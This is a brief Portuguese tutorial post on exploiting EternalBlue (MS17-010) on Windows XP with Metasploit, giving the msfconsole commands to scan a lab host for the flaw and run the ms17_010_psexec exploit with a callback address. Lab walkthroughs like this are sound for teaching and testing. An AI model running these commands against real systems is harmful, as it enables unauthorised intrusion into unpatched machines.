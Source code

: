 ```yaml
---
title: Exploitation - Eternal Blue ( WinXP )
category: post
---
```


>O EternalBlue é um exploit de ataque cibernético desenvolvido pela Agência de Segurança Nacional dos Estados Unidos da América. Foi divulgado pelo grupo de hackers Shadow Brokers em 14 de abril de 2017, um mês depois que a Microsoft lançou correções para a vulnerabilidade. by : Wikipédia

**Explorando o EternalBlue WindowsXP**


- Primeiro vamos entrar no metasploit logando com o msfconsole e procurar a Vulnerabilidade em questão.

```ruby
msfconsole
search eternalblue
```

or

```ruby
search ms17-010
```

---

- Agora temos que ter o 'host' do alvo, para verificarmos se o alvo é um target Windows XP e se
está vulnerável.


```ruby
use auxiliary/scanner/smb/smb_ms17_010
set RHOST 10.10.1.4
exploit
```

- Se tudo der certo, obtemos uma resposta parecida com o seguinte:

```text
[+] 10.l0.1.4:445      - Host is likely VULNERABLE to MS17-010! - Windows 5.1
[*] 10.l0.1.4:445      - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

---


### Exploitation do host que identificamos que esta vulneravel


```ruby
back

use exploit/windows/smb/ms17_010_psexec

set RHOST 10.10.1.4

set LHOST 10.10.1.2

run
```